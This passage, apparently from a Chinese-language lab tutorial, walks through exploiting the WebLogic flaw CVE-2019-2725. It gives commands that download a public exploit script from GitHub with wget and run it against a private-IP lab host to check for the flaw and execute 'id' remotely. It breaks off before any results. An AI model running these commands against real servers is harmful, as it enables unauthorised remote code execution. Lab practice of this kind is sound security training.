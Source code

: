 ![1748218639172](image/weblogic-cve_2019_2725/1748218639172.png)

#### 2 漏洞利用实践

##### 2.1 工具准备

**下载CVE-2019-2725专用利用工具**:

```bash
# 下载专用exploit工具
wget https://github.com/lufeirider/CVE-2019-2725/raw/master/CVE-2019-2725.py
chmod +x CVE-2019-2725.py
```

##### 2.2 漏洞验证攻击

**使用专用工具进行验证**:

```bash
# 基础漏洞检测
python3 CVE-2019-2725.py -t http://10.37.133.3:7001 -v

# 执行id命令验证
python3 CVE-2019-2725.py -t http://10.37.133.3:7001 -c "id"
```

**执行结果分析**:
